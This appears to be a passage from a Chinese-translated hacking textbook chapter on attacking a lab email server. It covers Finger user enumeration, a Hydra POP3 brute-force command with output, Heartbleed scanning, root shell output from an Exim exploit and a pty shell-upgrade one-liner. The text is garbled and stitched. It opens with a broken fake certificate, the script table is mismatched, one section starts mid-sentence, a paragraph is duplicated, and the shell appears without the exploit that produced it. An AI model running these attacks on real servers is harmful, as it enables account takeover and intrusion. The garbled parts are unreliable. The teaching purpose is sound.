CH3UMV2QTAXJNoclmBjnXwQWDVQHBWRETRIJMELMAKHIAUE
BgNVayRTIMQNTAMYNTAQCbZMElkAEMkIAUEMCvUsCAjBNvAgAMI
MO0c0QVW8Q2Z0N0RE5QWXR-IX:JI3Z2VTEUBIMAG4B15UIWWY
KoZInvHCNAQHBfpmZhbWQ915aj133f111110002222911155Q33D
ANAN4GNQ8cdIuc108b5f27KL23L199QWC4Q3M8ksJn+1/Uz+K
11111111111111111111111111111111111111111111111111111111111111111111111111111111
11111111111111111111111111111111111111111111111111111111111111111111111111111111
11111111111111111111111111111111111111111111111111111111111111111111111111111111
----- END CERTIFICATE-----
```

Nmap 准确地抓取了软件名称和版本。注意 pop3 代表邮局传输协议（版本 3）。在这个版本中，2.3.2 是 Cyrus 的版本，它是一个常见的投递代理。该服务允许员工使用邮局接收邮件。

## 通过 SSL/TLS 的邮件

你会在之前的输出中注意到，该服务器上运行的一些端口使用了 `ssl-cert`。这些证书用于安全套接层 (SSL) 或传输层安全 (TLS)。现在通常通过加密通道发送邮件，而不是明文。注意传输层安全 (TLS) 是 SSL 的现代版本，但这两个缩写经常混用。

SSL/TLS 将在下一章中详细介绍。目前带有 SSL/TLS 的端口（例如 TCP 110 端口）允许加密通信的发生。这意味着用户的邮件可以加密格式发送到和从服务器，而不是明文。当涉及到 SMTP 时，你可能会发现 25 端口未使用，但在 465 端口运行着一个服务。这仍然是 SMTP 协议，但通过 SSL/TLS 运行。

无论你在哪里使用 SSL/TLS，请记住某些服务可能受到特定的 SSL 漏洞的影响，例如本章解释的 Heartbleed 漏洞。

所以，运行着 POP 服务，特别是 POP 的版本 3。你可能会在 TCP 110 端口发现一些旧版本的 POP 服务，尽管它们现在非常罕见。995 端口也常用于 POP。这些 POP 服务的问题是它们通常不遵守账户锁定策略。换句话说，如果用户多次输入错误密码，什么都不会发生。他们可以一直尝试直到输入正确为止。在任何你看到这种行为的地方，都有暴力破解攻击的机会。POP 服务正在老化，并正被功能更丰富的现代协议（如 IMAP）取代。然而，你可能在环境中看到它。稍后，我们将使用暴力破解攻击此服务。

## 互联网消息访问协议

另一个现代邮箱协议是互联网消息访问协议 (IMAP)。它通常运行在 143 和 993 端口。如果你再次查看 Nmap 扫描结果，你会发现目标邮件服务器上运行着一个服务。现在，我们将跳过 113 端口的 ident 服务，如下所示：

```
113/tcp open ident? syn-ack
|auth-authors: oident
```

让我们转向 143 端口。这里的信息与 110 端口返回的相似：

```
143/tcp open imap syn-ack Cyrus imapd 2.3.2
|auth_owners: cyrus
|imap_capabilities: Completed AUTH-DIGEST-MDS BINARY SASL-IR OK UIDPLUS
CHILDREN AUTH-NTLM AUTH-CRAM-MD5 STARTTLS IDLE THREAD-REFERENCES
ATOMIC NAMESPACE CATENATE MAILBOX-REFERENCES SORT ORDEREDSUBJECT
MULTIAPPEND RENAME SELECT URLTAUTHA0001 ACL QUOTA LITERAL* ANNOTATEMORE
IMAP4VI NO IMAP4 RIGHTS<-xte ID
|imap-ntlm-info:
|Target_Name: MAILSERVER01
```

此 IMAP 服务也由 Cyrus 运行。在此期间，有一个 IMAP 守护进程。Nmap 抓取的 `Cyrus imapd 2.3.2` 行比 POP3 更不容易受到暴力破解攻击，并且通常集成在现代软件中，包括 Exchange 和 Active Directory 等 Microsoft 产品。这些基于 Microsoft Windows 的服务通常在多次尝试无效密码后禁用账户，因此请谨慎操作。在执行暴力破解攻击时，首先仅针对单个用户进行测试，以确保你不是同时针对多个用户。最好在所有方法都已用尽后进行此类测试。在周一早上暴力破解 Active Directory 系统的黑客可能会通过密码攻击“锁定”账户而造成相当大的头疼。

## 邮件软件

现在，让我们仔细观察到目前为止遇到的一些软件，以及各自的历史漏洞。你已经遇到过名为 Exim (SMTP) 的 MTA 以及名为 Cyrus 的 MDA（同时支持 POP 和 IMAP）。

### Exim

Exim 是一种被广泛使用的邮件软件程序，实际上是一个邮件传输代理。以下是过去几年中发现的一些漏洞，你可能想要检查它们：

- CVE-2010-4345: 远程 string_format 堆缓冲区溢出
- CVE-2010-4344: 权限提升
- CVE-2015-0235: GHOST libc() 漏洞
- CVE-2016-1531: 权限提升
- CVE-2019-15846: 远程代码执行
- CVE-2019-16928: 堆溢出远程代码执行
- CVE-2019-13917: 远程代码执行
- CVE-2019-10149: 远程命令执行

### Sendmail

Sendmail 写于 20 世纪 80 年代，由开源和 UNIX 用户社区持续开发，直到 2013 年被 Proofpoint 收购。它有一段充满奇特漏洞的历史。以下是值得阅读的几个有趣的：

- CVE-2006-0058: 远程信号处理漏洞
- CVE-2003-0161: 远程 prescan() 代码执行

Sendmail 非常老旧，以至于它的某些漏洞甚至早于 CVE 系统。尽管年代久远，Sendmail 仍然在使用。曾有一个版本的 Sendmail 包含一个以 Sendmail Wizard 形式存在的后门。虽然你现在可能不会遇到 Sendmail Wizard，但该后门的使用方式如下：连接到 Sendmail SMTP 服务器后，你将收到 `WIZ` 命令，后面跟着一个密码。`wizard` 在图 6.2 中被用示例，图 6.3 显示了负责该后门的部分源代码。

```
HELP
214-
214- HELLO MAIL RCPT DATA RSET
214- NOOP QUIT HELP VRFY EXPN
214-
214-For more info use "HELP <topic>.
214-
214 End of Help info
Show
SendQueue:[NULL]
Kill
300 Mere mortals mustn't mutter that mantra
WIZ test
200 You are no wizard!
WIZ wizard
200 Please pass, oh mighty wizard
Kill
200 Mother is dead
```

图 6.2: Sendmail Wizard

```
case GOMBOWZ: // become a wizard /
if (Wizword != NULL) {
    char seed[];
    extern char *cryp;
    (void) strncpy(seed, Wizword, 31);
    if (strncmp(seed, cryp(seed, 8)) == 0) {
        inviz = 1;
        message("200. Please pass, oh mighty wizard");
        break;
    }
}
message("500. You are not a wizard!");
break;
```

**图 6.3:** Wizard 源代码

最初的设计目的是允许系统管理员访问其远程邮件服务器上的受限 shell，但你现在可以看到这是一个多么不安全的想法，任何知道这个“功能”的人都可以做同样的事情。


在 20 世纪 80 年代，你可能在客户端机器上遇到过这个问题。遗憾的是，这在今天并不能带你走远。我们将其包含在此处，仅供那些研究历史漏洞的人士参考。学习过去的教训可以帮助你理解今天的漏洞。

## Cyrus

从早期的 Nmap 扫描可以看出，`Cyrus` (https://www.cyrusimap.org) 运行在我们的目标服务器上。它在虚拟邮件服务器上同时运行 IMAP 和 POP3 守护进程。POP3 是一个过时的协议，但 `Cyrus` 仍然支持它。`Cyrus` 是另一个全球范围内使用的开源软件，与其他任何软件一样，它包含许多记录的漏洞。

# PHP 邮件

PHP（超文本处理器）脚本语言（是的，这是一个递归缩写）在 Web 开发中非常流行。当然，它包含了处理电子邮件的功能，以便 Web 应用程序自动向用户发送电子邮件（例如密码重置邮件）。旧版本的 PHP `mail()` 函数允许注入额外的命令参数，这一缺陷导致了依赖此特定函数的软件漏洞（参见 CVE-2016-10333），WordPress 是一个极其流行的博客和内容管理系统。

值得注意的是漏洞在像描述的那种语言中是如何体现的。这只是单一脚本语言中发现的一个例子。如果你正在测试 Web 应用程序（我们很快就会讲到），你将发现各种形式和其他入口点，在这些地方可能注入 SMTP 命令来与邮件传输代理（如 Exim）进行交互。

# 第 6 章 ■ 电子邮件

在本章结束时，我们将演示一种利用 CVE-2017-7692 的方法，你将看到 `SquirrelMail`（一个 PHP Web 应用程序）如何被滥用来在操作系统上运行命令。

## 网页邮箱

网页邮箱不是某个特定的软件程序，而是邮件软件的一个类别。任何通过 Web（通过端口 80 或 443 端口，理想情况下是后者）访问读取和发送电子邮件的内容都可以被视为网页邮箱。网页邮箱有各种类型。流行的网页邮箱客户端包括 `SquirrelMail`、`Roundcube` 和 `Gmail`。

需要记住的关键点是，网页邮箱可以从任何地方访问，这对于在不同国家工作的员工来说很棒，但对于黑客来说也是很棒。不需要对其服务提供通用访问的组织应该考虑。如果你的客户尚未在公开访问的 Web 应用程序上使用多因素身份验证，你应该建议他们启用。

你将在后面的章节中更详细地查看 Web 服务器和 Web 应用程序，但现在，仅使用浏览器从该网站你可以获取哪些信息？在继续本章的其他内容之前，现在看看该页面。

## 登录页面分析

你可以在这里尝试一些用户名和密码，并且你应该注意此页面上显示的任何信息。要说明的第一点是，该服务运行在 80 端口，且通信通过明文进行。这意味着任何发送到服务的密码都可能被位于基础设施中位置良好的攻击者拦截。另一点需要指出，网页邮箱可以从世界任何地方访问，这对于出差的员工来说很棒，对攻击者来说也是很棒。

打开浏览器并将其指向邮件服务器的 IP 地址。你应该看到图 6.4 所示的登录页面。


# 通过 Finger 进行枚举

有时你幸运地发现运行在不属于它的服务器上的古老或过时的服务。对该邮件服务器的端口扫描显示了几个服务。让我们关注其中之一：Finger 服务。这并不是一个特定的邮件服务——你可能在任何地方遇到它（尽管这并不寻常）。我们现在查看它是因为它将演示如何结合服务的漏洞来实现结果，例如在本例中，获取服务器的某些访问权限。首先，通过探测运行在端口 79 的 Finger 服务获取用户名。然后你将看到如何使用此名称列表对 POP3 服务进行暴力破解。

## Finger 历史

如果你好奇 Finger 名称的起源，也许可以参考程序最初作者 L. Ernest 在封邮件交流中所解释的内容，该邮件随后被发布在 `alt.folklore.computers` 新组中。

Finger 的命名源于手指的动作。我记得在它流行后，我收到来自系统管理员的消息，他认为应该重命名，以免用户必须使用一个“脏”字。我给予了他的请求所有合理的考虑。

Finger 创建于 1971 年左右，它在 ARPANET 时代变得非常流行，因为它允许用户检查某人是否在线，以便安排会议等。如果某人不在，则使用 `.plan` 文件来提供关于该人员行踪的更多信息，尽管这些文件最终也被用于存储其他信息。

你可以使用 `Netcat` 来探测端口 79 上的 Finger 服务，如下：

```
nc 192.168.56.102 79
```

连接成功后，你可以尝试输入用户名来查看该用户是否存在，并获取关于该用户的一些信息。首先尝试输入 `admin`，因为这是一个常见的用户名。

```
admin
```

在这种情况下，系统中没有名为 `admin` 的用户。

```
finger: admin: no such user
```

尝试使用 Finger 服务来识别如 `root` 等其他用户。此服务器运行着类 UNIX 操作系统，很可能是 Linux，这意味着几乎会有一个 `root` 用户。如果你好奇我们如何知道邮件服务器是基于 Linux 的（假设我们没有从 CD 镜像加载它），请再次查看 Nmap 端口扫描结果。不仅服务器上运行的服务给出了类 UNIX 操作系统的印象，Nmap 还尝试猜测了操作系统。你可以在结果末尾看到这一点：

```
MAC Address: 08:00:27:08:CC:B8 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.16 - 4.6
```

使用 `Netcat` 连接端口 79 并输入 `root` 应该会有以下输出：

```
Login: root
Directory: /root
Never logged in.
No mail.
No Plan.
```

这证实了存在 `root` 用户，这对于大多数 Linux 服务器来说并不稀奇，但请考虑这种泄露的影响。你可以查询服务器上的任何用户名来查看该用户是否存在。你还可以看到一些额外的细节，例如用户的家目录、该用户默认设置的 shell 解释器（在这种情况下为 `bash`）以及该用户最后登录的时间。系统还会显示用户 `.plan` 文件的内容，这在历史上曾用作安排会议或共享用户行踪的手段。例如，用户可能会在行踪中添加一条他们正在休假的备注。当任何人“指向”他们或“查询”他们的行踪时，就会显示 `.plan` 文件。

理想情况下，你注意到运行在这台邮件服务器上的邮箱服务泄露了一些信息；登录屏幕（之前在图 6.4 中所示）显示了一个邮箱地址：`johnk@mailserver01`。

你可以利用这些信息来帮助你的攻击。在执行 OSINT（开源情报）工作时，你可能会发现邮件，或者可能像我们这样直接在显眼处发现它们。让我们看看系统中是否存在名为 `johnk` 的用户。不需要每次想探测潜在用户时都使用 `nc`。你的 Kali Linux 虚拟机默认安装了 Linux Finger 客户端，这意味着你只需运行 `finger johnk@192.168.56.102`，这将得到如下结果：

```
Login: johnk             Name:
Directory: /home/johnk  Shell: /bin/bash
Never logged in.
No mail.
No Plan.
```

是的，这个用户存在。也许该系统中还有更多遵循这种惯例的用户：名字、姓氏的首字母。为了测试这个理论，让我们在 bash 中写一点程序，以加快使用 Finger 检查用户的过程。我们还可以使用常用名称列表，而不是临时生成一个列表，这对于你的练习和其他枚举机会非常有帮助。获取词列表的方法如下：

```
wget --user student --password student https://www.hackerhouse.com/files/wordlists.tgz
```

这个 `.tgz`（用 Gunzip 压缩的归档文件）包含多个词列表文件。可以使用 `tar` 命令并配合 `-x` 选项（提取）后跟 `-f`（文件）和文件名进行提取。

```
tar -xf wordlists.tgz
```

这将在你的当前工作目录下创建一个名为 `wordlists` 的目录。此步骤需要的文件是 `names_short.txt`。你可以通过以下方式查看该文件的内容：

```
cat ./wordlists/names_short.txt
```

> **提示**：在测试各种系统和为不同客户工作时，你想要做的事情之一就是不断向你的各种密码和用户名列表添加内容，并考虑到不同的语言、文化和本地。

默认的 Kali Linux 安装包含了你可以使用的词列表（在 `/usr/share/wordlists/` 文件夹中）。你会发现，来自 Hacker House 的基础词列表对于演示对服务器的暴力攻击是足够的，但对于实际应用，你需要的不仅仅是一个短的常用密码列表。编译从公共数据库中破解的密码列表是一种流行的策略。你可能想要收集团队、城市、公司产品以及可能与你的目标相关的项目的词列表。你可以使用如 `CeWL` (github.com/digininja/CeWL) 等工具来爬取网站并为你编译列表。

你现在将编写一个程序，遍历 `names_short.txt` 文件中的每个名称，并为每个名称附加 a 到 z 的字母。该文件的输出将是 `andrewa, andrewb, andrewc` 等，直到到达列表末尾的 `zulux, zuluy, zuluz`。我们的朋友 "johnk" 也会出现在其中。

## 用户枚举脚本

导致过载或消耗系统资源，使其崩溃。运行之前的脚本将允许你识别出几个真实的用户名（前提是你已经在示例中设置了合理的限制）。你将得到以下输出（外加省略了几个额外的用户，以便留一些内容供你发现）：

> 学术传统要求你引用你文章所依据的作品。在使用 `GNU Parallel` 处理数据的程序时，请引用：
>
> +   O. Tange (2011): GNU Parallel - The Command-Line Power Tool, login: The USENIX Magazine, February 2011:42-47.
>
> 这有助于资助开发；而且**这不会让你花费一分钱**。如果你支付 10000 欧元，你就可以自由地在不引用的情况下使用 `GNU Parallel`。
>
> 要静默此引用提示：运行 `parallel --citation`：

```
Login: charlieu Name
Directory: /home/charlieu Shell: /bin/bash
Never logged in.
No mail.
No Plan.
Login: johnk Name
Directory: /home/johnk Shell: /bin/bash
Never logged in.
No mail.
No Plan.
Login: jennya Name
Directory: /home/jennya Shell: /bin/bash
Never logged in.
No mail.
No Plan.
```

将你通过此过程发现的用户名添加到新的文本文件中——例如 `realusers.txt`——每个名称占一行。这些用户名现在可以用于执行密码猜测攻击（通常称为暴力破解攻击）。

## 暴力破解邮局

邮局传输协议（第 3 版）通常容易受到暴力破解攻击的影响，现在将演示这种攻击。这种方法不仅局限于运行在邮件服务器上的 POP3 服务。事实上，你将使用的工具 `Hydra` 已经对许多不同的协议构建了内置支持。我们将向 `Hydra` 同时提供你刚刚发现的用户名列表和一份潜在密码列表。`Hydra` 将尝试使用我们指定的密码登录我们验证过的用户列表中的每个用户。我们暴力破解攻击的具体目标将是 POP3 服务，因为与此服务器上运行的其他服务相比，它更容易受到此类攻击。在接下来的示例中，你会看到我们正在使用的密码文件包含在之前下载的压缩包中：

```
hydra -L usernames.txt -P /wordlists/weak_passwords.txt 192.168.56.102 pop3
```

之前的命令调用了 `Hydra` 并使用 `-L` 选项指定包含用户名的文件。`-P` 选项指定包含密码的文件。提供了目标主机的 IP 地址，最后提供了协议，该协议必须是 `Hydra` 支持的协议之一。你可以通过查阅 `Hydra` 的 man 页面来检查。你得到的输出类似于下面的内容。为了不破坏你的乐趣，密码已经过模糊处理。

> Hydra v8.6 (2017) by Hauser/THC - 请勿用于军事或秘密服务机构，或非法目的。
>
> Hydra (http://www.thc.org/thc-hydra) starting at 2019-01-29 13:27:01
>
> [INFO] 几个提供商已实现破解保护，请使用小词表检查并保持合法！
>
> [DATA] 每台服务器 16 个任务，总共 16 个任务，108 次登录尝试 (1:6/p:18) - 每个任务 7 次尝试
>
> [DATA] 攻击 pop3://192.168.56.102:110/
>
> [110] pop3 host:192.168.56.102 login: charlie password: ******
>
> [110] pop3 host:192.168.56.102 login: password: ******
>
> 16 个目标成功完成，找到 2 个有效密码
>
> Hydra (http://www.thc.org/thc-hydra) finished at 2019-01-29 13:27:21

你应该有一些用户名和相应的密码！你应该尝试使用这些凭据登录运行在邮件服务器上的各种服务。你也可以假设在这些用户名后面加上 `@mailer01` 会得到 SMTP 服务接受的邮箱地址，这意味着如果你想向这些用户发送邮件，就可以登录他们的账户并阅读。思考一个你熟悉的公司。从这些邮箱地址可以推导出任何底层系统的身份吗？如果任何信息都是可被猜测的，那么就构成了安全风险。通常情况下，如果没有多因素身份验证，只需要用户名和密码。如果用户名已经已知，就会留下一小部分信息待被猜测——最好假设此类信息会被猜测，但通过增加复杂性来降低黑客进入系统的难度，而不是让大家的生活变得更容易。自然，需要根据每种情况权衡易用性和安全性，但这通常有利于黑客。

## Nmap 脚本引擎

之前我们使用默认模式下的 Nmap 脚本引擎对目标服务器运行了一些检查。从这些检查中收集的信息显示在 Nmap 扫描报告的末尾。

```
MAC Address: 08:00:27:CC:BB:AD (Oracle VirtualBox)
Device type: general
Running: Linux 3.x
CPE: cpe:/linux:linux_kernel,cpe:/linux:linux_kernel
OS details: Linux 3.16.4
TCP/IP fingerprint: Linux-2.6.32-47/15
Uptime: 0.036 days (since Jan 15 12:54:25 2019)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=2 (Good luck!)
ID Sequence Generation: All zeros
Service Info: localhost, mailserver01; OSs: Unix, Linux; CPE: cpe:/linux:linux_kernel
Host script results:
|__-scan: mean:
TRACOUTE
HOP ADDRESS
1 0.47 ms 192.168.56.102

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 13:46
Completed NSE at 13:46, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 13:46
Completed NSE at 13:46, 0.00s elapsed
Read-data files from: /usr/bin/share/nmap
OS and device detection performed. 请向 https://nmap.org/submit/ 任何错误结果
Nmap: 1 IP address (one host) scanned in 17.22 seconds
Raw packets sent: 26 (1,986KB) | Rcvd: 14 (1,238KB)
```

之前的输出并不是所有内容现在都会解释，有些你可能已经理解。从这些信息中提取的关键点是，Nmap 尝试检测目标主机上的操作系统并执行了跟踪路由（由于虚拟机只有一跳，所以这并不有趣）。你会发现其他预测是基于目标返回的 TCP 数据包中的信息。

现在让我们看看我们可以通过 Nmap 附带的各种脚本做些什么，这可以在 Hacker House 网站 `www.hackerhouse.com/files/nmapdiscovery` 找到。你需要安装 `python-tk` 软件包来使用此脚本。`sudo apt-get install python-tk`。图 6.5 所示的 Python 脚本显示了一个 GUI，帮助你查看各种各样 Nmap 脚本并学习它们的作用。它可以通过任何其他 Python 脚本运行：

```
python nmapdiscovery
```

| NSE script-discover | |
| :--- | :--- |


| 脚本名称 | 描述 |
| :--- | :--- |
| `smb-domain.nse` | 尝试通过诱导看似 SMTP 命令来中继邮件。 |
| `smb2-user-enum.nse` | 目标是测试服务器是否易受邮件中继攻击。 |
| `smb-brute.nse` | |
| `smtp-enum-users.nse` | 一个作为开放中继的 NSE 脚本，该邮件服务器允许未授权用户从指定的邮箱地址发送邮件。在这种情况下，用户将能够从他们想要的任何主机源发送邮件。 |
| `smb-open-relay.nse` | |
| `smb-vuln-2004-3346` | 检查基于对 `MAIL FROM` 和 `RCP TO` 命令的检查。脚本从源文件加载。脚本将输出所有执行的工作。 |
| `smb-vuln-0-2011-1726` | 除非另有说明，否则脚本以详细模式运行。脚本将报告成功测试的数量。 |
| `smb-test.nse` | 如果服务器需要身份验证，脚本将不会输出。 |
| `smb-http-logins.nse` | 如果启用了调试并在测试目标主机时发生错误，脚本将打印在此之前发现的任何组合。 |
| `smb-interface.nse` | |
| `smb-pos-config.nse` | |
| `smb-process.nse` | |
| `smb-connector.nse` | |

图 6.5: NSE 脚本发现器

## 第 6 章 ■ 电子邮件

你不需要使用此工具来搜索和查看有关 Nmap 脚本的信息；你也可以从文件系统中手动查看文件。为了演示 Nmap 脚本，我们将再次关注端口 25 上的 SMTP 服务。使用 `nsdiscover` 向下滚动脚本列表，直到找到 SMTP 脚本。要使用 Nmap 运行其中一个脚本，请提供 `--script` 选项并在后跟脚本名称。你需要指定目标的 IP 地址和你想要扫描的端口号。此外，如果你不想在服务器的每个端口上运行为 SMTP 设计的脚本，你可以按照如下方式运行所有以 `smtp-*`（通配符字符）开头的脚本：

```bash
nmap --script=smtp-* 192.168.56.102 -p 25
```

上一条命令在主机 `192.168.56.102` 上运行所有 SMTP 脚本，仅针对端口 25。由于没有提供其他选项，Nmap 还会运行其默认端口扫描。同时运行多个脚本可能会导致问题，例如系统不稳定。此外，由于存在几个活跃的利用，因此在运行此类 `wildcrab` 探测时要小心。某些脚本需要额外的参数才能运行，我们将在未来的章节中介绍这些内容。在将脚本用于任何客户端系统之前，在自己的隔离实验环境中测试脚本是非常重要的，以确保其行为正确。运行 Wireshark 或其他数据包捕获工具是进一步了解 Nmap 脚本、它们执行的操作以及对主机的潜在影响的好方法。

你会发现运行 SMTP 脚本显示了虚拟邮件服务器上 Exim 软件的几个潜在漏洞。你会在 Nmap 扫描结果中看到类似的内容：

| 漏洞脚本 | 版本信息 | 漏洞详情 |
| :--- | :--- | :--- |
| `smtp-vuln-cve2010-4344` | Exim 版本: 4.68 | Exim 堆溢出漏洞 (CVE-2010-4344): |
| | Exim (CVE-2010-4344): 极可能存在漏洞 | Exim 提升漏洞 (CVE-2010-4345): |
| | Exim (CVE-2010-4345): 极可能存在漏洞 | |

Nmap 报告该主机可能包含两个已知漏洞：`CVE-2010-4344` 和 `CVE-2010-4345`。为了确定，你需要利用并验证脚本的结果（这些结果源于欢迎 banner）。使用 `searchploit` 查找这些漏洞的利用程序。两者都是 Exim（SMTP 软件）的漏洞。搜索 `exim` 应该会显示合适的结果：

```bash
searchploit exim
```

该命令返回的利用程序之一是 `Exim4 < 4.69 - string-format Function Heap Buffer Overflow (Metasploit)`。这是针对 `CVE-2010-4344` 缓冲区溢出漏洞的利用程序。括号中的 Metasploit 表示该利用有一个 Metasploit 模块，或者它包含在框架中。Metasploit 有自己的内置搜索功能，你可以在 Metasploit 中以类似的方式使用它。

> 注意：缓冲区溢出发生在程序意外地向其分配的内存空间之外写入数据，覆盖了相邻内存位置的数据。这种行为可以通过导致漏洞程序用恶意代码覆盖已知包含可执行代码的内存位置来利用。

## CVE-2014-0160: 心血漏洞 (Heartbleed Bug)

心血漏洞是一个著名漏洞的例子。它不仅朗朗上口（与 `CVE-2014-0160` 相比），而且还是一个双关语，因为故障元素被称为“心跳”（heartbeat，稍后详细介绍）。它也非常严重，因为它影响了设计用于发送密码和信用卡信息等敏感信息的软件。该缺陷允许此类信息的披露实际上字面上泄露（或出血）了系统的内部内存。如果所有漏洞都能这样贴切地命名就好了！这个漏洞在全球范围内引起了巨大的轰动，并进入了主流视野。FBI 的主页以及互联网上使用 OpenSSL（SSL/TLS 协议的开源实现）的大多数网站都存在漏洞。许多系统受到了影响，尽管该漏洞可以追溯到 2014 年，但它仍会偶尔出现，通常是在未公开的系统上。漏洞不在于协议本身，而是在软件库中对协议的一种特定实现——OpenSSL。恰好 OpenSSL 被广泛使用。

现在让我们来看看什么是 TLS 心跳，以及为什么这导致了该漏洞。两个主机使用 SSL/TLS 建立所谓的连接。这发生在你通过 HTTP 访问网页或从你的 MUA（用户邮件客户端）向现代 MTA（邮件传输代理）发送邮件时（例如，从 Thunderbird 向监听端口 587 的远程 Exim 服务发送邮件）。为了保持连接“活跃”，会使用被称为心跳的东西，让每个主机知道对方仍在监听或可能稍后需要发送某些信息。心跳首先在 TLS 协议记录中发送一段短数据。发送者将指定一个单词或字符字符串如 `"HELLO"`，并在 TLS 协议记录中将其长度指定为 16 位（2 字节）无符号整数（或短整数）。在 `"HELLO"` 的情况下，发送者发送了一个五个字符的字符串。因此，发送者发送 `"HELLO"` 和长度 5（作为包含该值的 2 字节）。

漏洞不在于协议本身，而是在软件库中对协议的一种特定实现——OpenSSL。恰好 OpenSSL 被广泛使用。

## 第 6 章 ■ 电子邮件

```text
linux-vdso.so.1 (0x00007ff474f70000)
libz.so.1 => /lib/x86_64-linux-gnu/libz.so.1
```

```text
libz.so.2 => /lib/x86_64-linux-gnu/libz.so.2
(000007f2583c9e00)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6
(000007f25838ad000)
```

```text
/lib64/ld-linux-x86-64.so.2 (0x00007f2584168000)
```

这表明应用程序没有使用系统的 `libssl` 或类似的库。这意味着我们正在使用静态 OpenSSL 库进行测试。这意味着如果我们降级系统的 OpenSSL 库，也不会产生任何影响，因为此工具使用的是它内置的库。由于此版本是新的，并且修复了许多 SSL 协议漏洞，我们选择使用较早版本的库，以确保测试能够准确反映目标的漏洞，而不是你的本地配置。幸运的是，我们始终可以降级工具来使用旧版本的库或包，以确保我们的漏洞检查是准确的。从 `old.kali.org` 仓库下载并安装旧版本的 SSLscan。

```bash
wget http://old.kali.org/kali/pool/main/sscan/sslscan_1.9.10-rbsec-0kali1_amd64.deb
dpkg -i sslscan_1.9.10-rbsec-0kali1_amd64.deb
```

此时，你应该已经安装了一个使用静态版本 OpenSSL 的 SSLscan 版本，它可以用于测试漏洞。运行版本命令进行验证。

```bash
sslscan --version
```

```text
-static
OpenSSL 1.0.1m-dev xx XXX XXXX
```

输出显示该工具使用的 OpenSSL 版本要旧得多，并且包含了识别漏洞所需的废弃协议功能。你可以尝试使用以下命令对虚拟邮件服务器运行此工具：

```bash
sslscan 192.168.56.102
```

```text
Version: -static
OpenSSL 1.0.1m-dev xx XXXxxxx

Testing SSL server 192.168.56.102 on port 643

TLS renegotiation:
Secure session renegotiation supported

TLS Compression:
Compression disabled
```

## 第 6 章 电子邮件

Heartbleed:

- TLS 1.0 不易受 Heartbleed 攻击
- TLS 1.1 易受 Heartbleed 攻击
- TLS 1.2 易受 Heartbleed 攻击

支持的加密算法：

| 接受 | 位数 | 加密算法 |
| :--- | :--- | :--- |
| TLSv1.0 | 256 bits | ECDHE-RSA-AES256-SHA |
| TLSv1.0 | 256 bits | DHE-RSA-AES256-SHA |
| TLSv1.1 | 256 bits | ECDHE-RSA-AES256-SHA |
| TLSv1.2 | 256 bits | ECDHE-RSA-AES256-GCM-SHA384 |
| TLSv1.2 | 256 bits | ECDHE-RSA-AES256-SHA384 |
| TLSv1.2 | 256 bits | ECDHE-RSA-AES256-SHA |
| TLSv1.2 | 256 bits | DHE-RSA-AES256-GCM-SHA384 |
| TLSv1.2 | 256 bits | DHE-RSA-AES256-SHA256 |
| TLSv1.2 | 128 bits | DHE-RSA-AES128-SHA256 |
| TLSv1.2 | 128 bits | DHE-RSA-AES128-GCM-SHA256 |

首选加密算法：

- TLSv1.0 256 bits ECDHE-RSA-AES256-SHA
- TLSv1.1 256 bits ECDHE-RSA-AES256-SHA
- TLSv1.2 256 bits ECDHE-RSA-AES256-GCM-SHA384

SSL 证书：

- 签名算法: SHAWithRSAEncryption
- 密钥强度: 1024
- 主题: hackblob.linux01.lab
- 发行者: Superfish, Inc.

根据屏幕输出显示的结果，我们的服务器似乎容易通过 TLS 受到 Heartbleed 攻击。你可能会发现 SSL 工具给出的结果不同、产生假误报或没有按预期做出响应，这可能是由于 SSL 库不匹配导致的。多次运行工具以获得最准确的评估，并尝试使用与主机版本匹配的 SSL 库测试 SSL 服务，以确保功能没有被弃用。在使用旧库之后，你可以只需运行 `apt update sslscan` 重新获取最新版本。

你也可以使用 `ssl-heartbleed` Nmap 脚本，它会探测已识别的 SSL 服务的 TLS 心跳响应。该脚本对你机器上 OpenSSL 版本的依赖较小，因此可以以很高的准确度使用。这可以确定目标是否易受攻击。

```bash
nmap --script ssl-heartbleed 192.168.56.102
```

```text
Starting Nmap for 192.168.56.102 (Host scan up)
192.168.56.102 is up
Port 443/tcp is open ssl
ssl-heartbleed:
  State: VULNERABLE
  SSL: OpenSSL 1.0.1m-dev
  Vulnerability: CVE-2014-0160
```

这里没有提示符（prompt），但你可以输入命令。这是远程机器（虚拟邮件服务器）上的一个 shell，因此你输入的任何内容都将被记录在那里，如果是合法的命令，它将会被执行。一个很好的尝试的第一个命令是 `id`。这个利用应该让你立即获得 root 用户账户权限（并不总是如此），这可以通过 `id` 的输出来确认。

```text
uid=0 (root) gid=0 (root) groups=0(root)
```

另一个利用是使用 `uname -a`，它将为你提供有关系统的信息，例如内核和操作系统，如下文所示：

```text
Linux mailserver01 3.16.0-4-586 #1 Debian 3.16.43-2 (2017-04-30) i686
GNU/Linux
```

你对这台机器拥有 root 权限，可以对它做任何你想做的事。然而，问题是，你可能没有一个具有正确提示符的 shell。尝试在文件系统中移动并进行一些探索。如果没有适当的 shell，这可能会让人感到沮丧。我们使用的利用技术是由 Joshua Drake 开发的，它与两个漏洞协同工作以提供远程 shell。它是远程 root 利用以及如何开发可靠代码的绝佳示例。

## 升级你的 Shell

为了让生活更轻松，你可以执行一些可以称作“升级你的 shell”的操作。这并不是一个技术术语，但它完美地描述了你正在做的事情。正如你将看到的，许多利用并没有像前面演示的那样获得 root 权限，而升级 shell 对于在远程主机上运行进一步的利用以提升权限是必要的。有许多方法可以进行升级，但其中一个非常棒的方法是运行以下 Python 一行命令：

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

这是一个完整的 Python 程序，它导入了 `pty` 模块（来自 Python 库），然后运行了 `spawn` 函数。传递给这个 `spawn` 的参数是 `/bin/bash`，这是大多数 Unix 类系统上 bash 解释器的完整路径。这一切都是在目标机器上完成的。我们依赖于 Python 安装了必要的 `pty` 模块，并且它存在于 `/bin` 目录中。

> 提示：Metasploit 框架包含一个用于管理在远程主机上执行的负载的命令。你可以使用 `sessions` 命令来交互列出所有当前可用会话、杀死会话以及控制会话。一个非常有用的功能是 `sessions -u`，它可以升级类似于从 Exim 利用中获得的终端。它的实现方式与 Python 示例类似。

